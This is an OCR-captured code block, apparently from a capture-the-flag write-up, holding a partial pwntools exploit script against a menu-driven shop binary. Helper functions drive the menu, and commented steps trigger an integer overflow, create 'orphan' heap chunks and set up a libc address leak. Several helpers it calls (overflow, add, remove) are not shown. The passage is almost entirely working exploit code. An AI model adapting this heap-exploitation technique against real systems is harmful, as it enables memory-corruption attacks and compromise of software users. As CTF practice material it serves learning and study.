 ```

def buy(idx, buy_all):
    p.sendlineafter('Your choice:', str(4))
    if buy_all:
        p.sendlineafter('Your choice:', str(2))
        p.sendlineafter('Your choice:', str(1))
    else:
        p.sendlineafter('Your choice:', str(1))
        p.sendlineafter('Which item?:', str(idx))
    p.recvuntil('Done!\n\n')


def show(idx, show_all):
    p.sendlineafter('Your choice:', str(3))
    if show_all:
        p.sendlineafter('Your choice:', str(2))
    else:
        p.sendlineafter('Your choice:', str(1))
        p.sendlineafter('Which item?:', str(idx))


# gdb.attach(p, '')

# Increase the number of crystals by integer overflow
overflow()

# add 16 items and buy all
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break

buy(0, True)

# make two orphan chunks
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 3:
        break

remove(0)
remove(0)

# allocate 15 chunks and Libc leak
while True:
    add(1, 1)
    show(0, True)
    result = p.recvuntil('You', drop=True).split('\n')
    del result[0]
    del result[-1]
    del result[-1]
    if len(result) == 16:
        break
```